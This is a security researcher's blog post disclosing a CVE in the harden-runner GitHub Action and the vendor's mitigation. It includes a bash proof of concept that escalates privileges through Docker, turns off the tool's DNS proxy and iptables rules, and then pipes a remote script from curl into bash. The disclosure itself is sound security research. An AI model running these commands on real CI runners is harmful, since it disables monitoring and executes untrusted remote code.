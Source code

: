 ```yaml
---
layout: post
title:  "Is harden-runner really securing your GitHub workflows?"
date:   2025-04-23 14:39:49 +0000
categories: github-action-security
---
```


What is the best way for a security guy to start a new blog? Probably sharing the first CVE that I found! 

I already published a blog post [here](https://sysdig.com/blog/security-mechanism-bypass-in-harden-runner-github-action/), but I wanted to add some more thoughts about it in my personal blog to just keep record of it and give more context.

During the last months I spent some time instructing myself on CI/CD security, especially on GitHub Actions, since I always loved to work in public, open-source repositories. While working on a project to use [Falco](https://falco.org) to gain visibility on GitHub workflows (at the end of the day, GitHub-hosted runners are just Linux machines), I started taking a look around to see how other projects/companies were addressing the problem. 

During this investigation, I stumbled upon [StepSecurity harden-runner](https://github.com/step-security/harden-runner). This is the most widespread product I found, it's used in a lot of open-source repositories and important projects. It has to be said that it really helped finding interesting real world attacks, especially thanks to their features allowing to audit or even block egress traffic using an [agent](https://github.com/step-security/agent) written in Go -- but probably the way these kind of solutions work isn't enough, since it turned out that a more motivated attacker can circumvent and turn off any security control in place. I talked about this with [Adnan Khan](https://adnanthekhan.com/), one of the best security researchers in this domain, and he confirmed my doubts. This led me to try to find an actual way to prove my thesis.

The main problem with these tools is that their security model is fundamentally broken. In a GitHub Actions environment, attackers can and will gain remote code execution in many subtle ways. Think about projects like [Living Off the Pipeline](https://boostsecurityio.github.io/lotp/) and check how many ways are out there to run untrusted code, following an "innocent" repo checkout on a PR or a workflow injection. 

So, now that we know attackers will execute their code, what is actually differentiating the code run by them and the one run by harden-runner? Well, just nothing. Will the software that is meant to monitor and secure your workflow be safe from potential tampering? Nope, of course.

You can read the details about the vulnerable code in the [Sysdig blog post](https://sysdig.com/blog/security-mechanism-bypass-in-harden-runner-github-action/), but basically the main features of the agent (that is auditing or blocking egress traffic both at the DNS and IP level), was implemented by:
1. Spawning a local DNS proxy, used to monitor/block all DNS queries. The `systemd-resolve` service is stopped, reconfigured to use the proxy, and the old configuration backed up in `/tmp`.
2. Creating simple iptables rules, both for host and containers.

To protect the agent inside the runner VM, StepSecurity implemented a feature called `disable-sudo`. By default, the `runner` Linux user inside the VM can run any arbitrary command via `sudo` thanks to the configuration in `/etc/sudoers.d/runner` file. The `disable-sudo` policy just limits itself to move the sudoers file for the user in `/tmp`, making it impossible to run `sudo` commands again. So everything is okay right? Nope! We just needed to find a way to escalate privileges in a different ways. How? 

1. Applying my knowledge about GHA. If you are a user of this product, you know that GitHub actions can be of three types: composite, JavaScript and Docker actions.
2. Remebering a good old friend, the [Docker GTFObin](https://gtfobins.github.io/gtfobins/docker/). 

Being part of the Docker group means being root, and of course since the runner must be able to run containers (Docker actions), so we must be inside that group. A quick execution of `id` inside the runner shell confirmed that we are indeed part of it.

So, at the end of the day it all boils down to:

```bash
# Restore sudo access via Docker privilege escalation, mounting the host filesystem 
# and operating as root inside it
docker run \
    --rm --privileged \
    -v /:/host \
    ubuntu bash -c "cp /host/tmp/runner /host/etc/sudoers.d/runner"

# Restore old DNS systemd configuration, disabling harden-runner proxy
sudo systemctl stop systemd-resolved
sudo cp /tmp/resolved.conf /etc/systemd/resolved.conf
sudo systemctl restart systemd-resolved

# Remove harden runner iptables rules
sudo iptables -t filter -F OUTPUT
sudo iptables -t filter -F DOCKER-USER

# Do mess undisturbed
curl -sSfL <GIST_URL> | bash
```

The mitigation that StepSecurity proposed is described [here](https://www.stepsecurity.io/blog/evolving-harden-runners-disable-sudo-policy-for-improved-runner-security), but basically they evolved the `disable-sudo` feature to `disable-sudo-and-containers`, disinstalling Docker altogether, so that the privilege escaltion cannot be performed anymore. I still believe that there might be some more subtle ways to gain root inside the runner, and I will continue to research about it. 

Of course disinstalling Docker is just a mitigation and it's something that is limiting the features offered by GHA. I hope this CVE will serve to lead the security community to think of better ways to protect agents from tampering in such environments.

Thanks for reading, hope you enjoyed!